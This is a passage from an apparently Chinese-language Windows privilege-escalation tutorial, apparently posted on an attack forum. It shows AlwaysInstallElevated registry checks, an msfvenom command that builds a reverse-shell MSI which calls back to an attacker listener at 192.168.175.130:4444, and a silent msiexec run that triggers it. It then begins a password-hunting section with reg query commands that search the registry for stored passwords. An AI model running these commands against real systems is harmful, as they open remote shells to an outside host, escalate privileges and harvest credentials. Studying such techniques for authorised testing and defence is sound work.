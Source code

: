 #### 2. 或者，手动验证值：

```php
reg query  HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer  /v AlwaysInstallElevated
```

```php
reg query  HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer  /v AlwaysInstallElevated
```

#### 3.使用msfvenom创建反向外壳

```php
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.175.130 LPORT=4444 -f msi -o a001.msi
```

![image-20210707170414357](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-41019cbcb07eb5fc88fa304f4672f460aa3092f9.png)

#### 4.上传a001.msi到靶机，并在Kali上启动一个监听，并运行安装程序以触发漏洞：

```php
msiexec /quiet /qn /i C:\Users\user\Desktop\a001.msi
```

![image-20210707170553656](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-87e314394f6e21b9dddb37817d2df913e989de2c.png)

![image-20210707170620651](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c59382bab8816f82704f6fab23d63e1ea3a04387.png)

0x07 密码
=======

前言
--

管理员也会重复使用密码，或将其密码保留在一些可读位置的系统上。

Windows 可能特别容易受到此影响，因为 Windows 存储密码的几个功能不安全

注册表
---

### 前言

大量程序在Windows注册表中存储配置选项。

Windows 本身有时会在注册处以纯文本存储密码。

我们可以在注册表处搜索密码

### 搜索注册表处的密码

以下命令将搜索注册表中包含"密码"的密钥和值

```php
reg query HKLM /f password /t REG_SZ /s  #本地机器注册表项reg query HKCU /f password /t REG_SZ /s #当前用户注册表项
```

### 实操
